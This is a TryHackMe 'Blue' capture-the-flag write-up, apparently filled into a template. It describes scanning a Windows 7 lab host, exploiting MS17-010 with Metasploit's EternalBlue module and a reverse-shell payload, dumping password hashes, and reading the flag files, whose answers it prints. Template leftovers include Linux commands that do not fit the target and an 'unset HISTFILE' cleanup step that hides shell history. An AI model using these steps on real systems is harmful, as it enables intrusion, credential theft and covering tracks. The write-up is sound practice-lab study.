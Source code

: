 # [Blue]

## Basic Info
- **Platform**: TryHackMe
- **IP Address**: 10.10.5.87
- **Date**: 05/03/2025
- **Difficulty**: Easy
- **Tags**: Enumeration, Exploitation, Privilege Escalation

---

## Scanning & Enumeration

### Nmap
**Command:**
```bash
nmap -sVC -T4 -p- --open <ip>-oN blue.nmap
```

**Result Summary:**

```
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-05-02T14:26:05
|_Not valid after:  2025-11-01T14:26:05
|_ssl-date: 2025-05-03T15:50:43+00:00; -1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:50:17:50:99:b1 (unknown)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h14m59s, deviation: 2h30m00s, median: -1s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-03T10:50:37-05:00
| smb2-time: 
|   date: 2025-05-03T15:50:37
|_  start_date: 2025-05-03T14:26:04
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

---

## Service Analysis

### Port 445 - SMB
- **What’s running:** Microsoft Windows RPC
- **Interesting files/directories:** 
- **Vulnerabilities identified:** ms17-010

---

## Exploitation

### Method Used:
- Vulnerability: ms17-010
- Exploit Used: exploit/windows/smb/ms17_010_eternalblue AKA eternalblue
- Shell Access Gained: Yes, reverse shell via Metasploit

**Commands:**
```bash
mfsconsole - to start MetaSploit
	set the RHOST to <targetip>
	set the LHOST to <hackermachine>
	set payload windows/x64/shell/reverse_tcp - set the payload to get a reverse shell. 
	show targets - to show potentional targets you can set which varies of the OS that the target has
	set target 1 - to select target os
	run - then run the exploit
---

```bash
CTRL+Z to background the shell
Then ran "search shell_to_meterpreter" - to have a stable meterpreter session
use 0 - to choose the exploit
sessions -l - to list the shells that we have.
set session 1
run - This upgrades the session
```
The session will look like it dropped, if you see 'stopping exploit/multi/handlder' it did not crash, instead run the following.

```bash

session 2 - this selects the upgraded session

```

We can see that our process ID belongs to powershell.exe and is running as NT AUTHORITY\SYSTEM.

then run:

```bash

hashdump

```

We can crack this hash using john with the following command after adding the hash (we just need the last part of the hash after the last “:”) to a file called “hash.txt” for the user Jon.

```bash

echo <hash> > hash.txt

```

Then now we have a password.

Now lets get the flags:

```bash
search -f *.txt - search for all the flags

```

```bash

cat "C:\\flag1.txt"

```

```bash
cat 'c:\Windows\System32\config\flag2.txt"
```

```bash
cat 'c:\\Windows\\System32\\config\\flag2.txt\"
```

## Post Exploitation

### User Enumeration
```bash
id
cat /etc/passwd
```

### File Discovery
Flag 1 location: C:\flag1.txt
Flag 2 location: c:\Windows\System32\config\flag2.txt
Flag 3 location: c:\Users\Jon\Documents\flag3.txt

---

## Privilege Escalation

### Method Used:
- Kernel Exploit / Sudo Misconfig / Cronjob / etc

**Commands:**
```bash
sudo -l
```

---

## Flags

- **Flag 1** flag{access_the_machine}
- **Flag 2** flag{sam_database_elevated_access}
- **Flag 3** flag{admin_documents_can_be_valuable}

---

## Lessons Learned
- I've learned sometimes if you have a firewall setup on your machine that you will need to allow list the ports that your room is using to connect back to your machine.
- Within the upgraded shell, you sometimes need to use a double "\\" for the absolute filepath to "cat" out the file contents of files.
- 

---

## Cleanup (If applicable)
```bash
rm /tmp/<filename>
unset HISTFILE
```


## Summary/Understanding of what I've learned in this room
-
-
-
--------